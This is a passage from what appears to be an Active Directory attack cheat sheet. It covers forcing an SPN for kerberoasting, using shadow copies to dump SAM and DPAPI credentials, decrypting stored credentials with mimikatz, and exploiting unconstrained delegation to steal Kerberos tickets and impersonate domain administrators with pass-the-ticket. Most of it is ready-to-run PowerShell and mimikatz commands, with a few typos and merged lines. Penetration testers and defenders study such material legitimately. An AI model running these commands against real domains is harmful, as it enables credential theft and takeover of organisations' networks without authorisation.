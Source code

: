     #Force set the SPN on the account:
    Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
    ```
    

Finally use any tool from before to grab the hash and kerberoast it!

### **Abusing Shadow Copies**

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Domain Escalation.

```
#List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows

#List shadow copies using diskshadow
diskshadow list shadows all

#Make a symlink to the shadow copy and access it
mklink /d c:\\shadowcopy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\
```

1. You can dump the backuped SAM database and harvest credentials.
2. Look for DPAPI stored creds and decrypt them.
3. Access backuped sensitive files.

### **List and Decrypt Stored Credentials using Mimikatz**

Usually encrypted credentials are stored in:

- `%appdata%\\Microsoft\\Credentials`
- `%localappdata%\\Microsoft\\Credentials`

`#By using the cred function of mimikatz we can enumerate the cred object and get information about it: dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"#From the previous command we are interested to the "guidMasterKey" parameter, that tells us which masterkey was used to encrypt the credential #Lets enumerate the Master Key: dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"#Now if we are on the context of the user (or system) that the credential belogs to, we can use the /rpc flag to pass the decryption of the masterkey to the domain controler: dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc

#We now have the masterkey in our local cache: dpapi::cache

#Finally we can decrypt the credential using the cached masterkey: dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"`

### **Unconstrained Delegation**

_If we have Administrative access on a machine that has Unconstrained Delegation enabled, we can wait for a high value target or DA to connect to it, steal his TGT then ptt and impersonate him!_

Using PowerView:

```
#Discover domain joined computers that have Unconstrained Delegation enabled
Get-NetComputer -UnConstrained

#List tickets and check if a DA or some High Value target has stored its TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets"'#Command to monitor any incoming sessions on our compromised server
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay
<WaitInterval> -Verbose

#Dump the tickets to disk:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'#Impersonate the user using ptt attack:
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```
